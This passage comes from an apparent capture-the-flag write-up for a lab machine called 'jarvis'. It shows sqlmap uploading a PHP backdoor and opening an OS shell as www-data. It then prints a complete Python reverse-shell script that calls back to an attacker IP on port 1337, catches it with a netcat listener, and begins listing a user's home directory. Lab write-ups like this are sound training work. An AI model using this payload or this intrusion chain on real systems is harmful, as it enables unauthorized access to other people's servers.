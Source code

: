 [17:14:19] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9.0 (stretch)
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0.12
[17:14:19] [INFO] going to use a web backdoor for command prompt
[17:14:19] [INFO] fingerprinting the back-end DBMS operating system
[17:14:19] [INFO] the back-end DBMS operating system is Linux
...
[17:15:37] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://10.10.10.143:80/tmpuypql.php
[17:15:38] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://10.10.10.143:80/tmpbdenp.php
[17:15:38] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> whoami
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output: 'www-data'
os-shell> 
{% endhighlight %}

<p>Excellent! We popped ourselves a shell! www-data is not necessarily ideal, and the sqlmap shell is also not ideal, so let's get our own python shell file and upgrade a bit.</p>

{% highlight python %}
root@kali:/var/www/html# cat shell1.py
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.xxx.xxx",1337));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
{% endhighlight %}

<p>Moving it on to the host we setup a listener on our attacking machine and pull the trigger.</p>

{% highlight shell %}
nc -lvp 1337
Listening on [0.0.0.0] (family 2, port 1337)
Connection from 10.10.10.143 48892 received!
Linux jarvis 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64 GNU/Linux
 17:27:49 up  4:34,  0 users,  load average: 1.09, 1.18, 1.17
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
{% endhighlight %}

<p>Slightly better. Let's take a poke at what we see.<p>

{% highlight shell %}
$ cd home
$ ls -latr
total 12
drwxr-xr-x  3 root   root   4096 Mar  2  2019 .
drwxr-xr-x 23 root   root   4096 Mar  3  2019 ..
drwxr-xr-x  5 pepper pepper 4096 Oct  2 13:38 pepper
$ cd pepper
total 36
drwxr-xr-x 3 root   root   4096 Mar  2  2019 ..
-rw-r--r-- 1 pepper pepper 3526 Mar  2  2019 .bashrc
-rw-r--r-- 1 pepper pepper  675 Mar  2  2019 .profile
-rw-r--r-- 1 pepper pepper  220 Mar  2  2019 .bash_logout
drwxr-xr-x 2 pepper pepper 4096 Mar  2  2019 .nano
lrwxrwxrwx 1 root   root      9 Mar  4  2019 .bash_history -> /dev/null
drwxr-xr-x 3 pepper pepper 4096 Mar  4  2019 Web